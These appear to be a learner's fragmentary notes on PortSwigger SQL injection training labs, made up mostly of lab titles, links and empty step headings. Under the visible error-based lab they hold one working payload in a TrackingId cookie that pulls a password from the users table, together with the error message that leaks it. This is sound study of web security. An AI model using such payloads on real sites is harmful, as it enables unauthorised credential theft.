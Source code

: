 The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

1. determine how many columns are in the current table:

2. determine how many of them support string values:

3. find table names:

4. find columns:

5. final payload:

in class:

# **_[7. Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)_**

self:

# 8. [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

# **_9. SQL injection attack, querying the database type and version on MySQL and Microsoft_**

https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

# 10. [ Lab: Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

```bash
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--; session=XoqN3sNVZpZa9RTpkwvj1dSbxkXaPO1M
```

```html
<h4>ERROR: invalid input syntax for type integer: "mwp65mnhskwkkmexv85y"</h4>
```

# 11. [ Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
